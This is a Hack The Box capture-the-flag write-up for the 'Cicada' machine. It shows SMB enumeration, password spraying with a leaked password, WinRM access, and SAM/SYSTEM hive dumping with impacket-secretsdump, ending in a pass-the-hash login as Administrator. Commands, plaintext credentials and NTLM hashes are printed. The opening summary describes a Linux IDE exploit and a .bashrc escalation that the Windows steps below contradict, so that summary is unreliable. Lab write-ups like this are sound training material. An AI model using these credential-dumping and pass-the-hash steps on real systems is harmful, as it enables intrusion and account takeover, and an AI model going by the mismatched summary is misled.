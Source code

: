 ```yaml
---
title: "Cicada"
date: 2024-11-11
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "cicada", "htb walkthrough", "hackthebox", "writeup"]
---
```


Cicada explores a Linux system hosting a misconfigured development IDE that listens on an open port.
Initial access was obtained through exploiting exposed debugging endpoints, allowing unauthenticated command execution.
Foothold enumeration revealed sensitive source code and user credentials.
Privilege escalation required modifying a .bashrc file for a user with sudo rights and triggering it via SSH.
Cicada demonstrates how developer tooling left exposed can become an easy target — especially when tied to mismanaged startup behavior or sudo context.

## Enumeration

### SMB

![screenshot](/assets/images/cicada1.png)

#### Notice from HR.txt

![screenshot](/assets/images/cicada2.png)

 Found password.

```text
Cicada$M6Corpb*@Lp#nZp!8
```

![screenshot](/assets/images/cicada3.png)

Password spraying the found credential with username list found a match.

Further enumerate SMB with the new credential.

![screenshot](/assets/images/cicada4.png)

Found another credential for michael.wrightson user.

```sh
enum4linux-ng -A -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' cicada.htb -t 10
```

![screenshot](/assets/images/cicada5.png)

![screenshot](/assets/images/cicada6.png)

#### Backup_script.ps1

![screenshot](/assets/images/cicada7.png)

![screenshot](/assets/images/cicada8.png)

Found another credential for emily.oscars user.

## Foothold

Evil-winRM as emily.oscars.

```sh
nxc winrm cicada.htb -u users.txt -p passwords.txt
```

![screenshot](/assets/images/cicada9.png)

![screenshot](/assets/images/cicada10.png)

## Privilege Escalation

```powershell
whoami/all
```

![screenshot](/assets/images/cicada11.png)

### Backup SAM and SYSTEM registry hives

```powershell
# save SAM and SYSTEM via evil-winrm
reg save hklm\sam sam.hive
reg save hklm\system system.hive

download sam.hive
download system.hive
```

![screenshot](/assets/images/cicada12.png)

### Extracting hashes

```sh
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![screenshot](/assets/images/cicada13.png)

```txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Evil-winRM as administrator.

```sh
evil-winrm -i cicada.htb -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

![screenshot](/assets/images/cicada14.png)
